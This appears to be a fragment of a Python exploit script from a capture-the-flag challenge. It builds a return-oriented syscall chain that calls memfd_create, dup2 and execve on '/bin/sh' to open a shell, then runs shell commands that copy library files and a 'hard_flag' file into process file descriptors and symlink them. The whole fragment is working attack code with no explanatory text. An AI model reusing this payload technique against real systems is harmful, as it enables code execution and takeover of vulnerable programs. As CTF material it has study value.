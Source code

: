 ```python
    return set_rax(nr) + p64(0x4d8765)

def syscall1(nr, arg0):
    return set_rdi(arg0) + syscall0(nr)

def syscall2(nr, arg0, arg1):
    return set_rsi(arg1) + syscall1(nr, arg0)

def syscall3(nr, arg0, arg1, arg2):
    return set_rdx(arg2) + syscall2(nr, arg0, arg1)

def sys_get_flag(idx, buf):
    return syscall2(548, idx, buf)

def sys_write(fd, buf, sz):
    return syscall3(1, fd, buf, sz)

def sys_exit_group(code):
    return syscall1(231, code)

def sys_memfd_create(name, flags):
    return syscall2(319, name, flags)

def sys_dup2(oldfd, newfd):
    return syscall2(33, oldfd, newfd)

def sys_execve(filename, argv, envp):
    return syscall3(59, filename, argv, envp)

OFF_ARGV = 0x160
OFF_ENVP = 0x168
OFF_BINSH = 0x170

payload = sys_memfd_create(0x400000, 0) * 4
payload += sys_dup2(2, 1)
payload += sys_execve(
            addr + OFF_BINSH, \
            addr + OFF_ARGV, \
            addr + OFF_ENVP)

assert len(payload) <= OFF_ARGV
payload = payload.ljust(OFF_ARGV)
payload += p64(addr + OFF_BINSH)

assert len(payload) == OFF_ENVP
payload += p64(0)

assert len(payload) == OFF_BINSH
payload += b'/bin/sh\x00'

write_mem(payload)
p.recvuntil(b'/ $ ')
p.recvuntil(b'/ $ ')

fd = 4
for file in {'libgcc_s.so.1', \
        'libc.so.6', \
        'ld-linux-x86-64.so.2', \
        'hard_flag'}:
    sys(f'cat /tmp/{file} >> /proc/$$/fd/{fd}')
    sys(f'ln -s /proc/$$/fd/{fd} /home/guest/{file}')
    fd += 1

```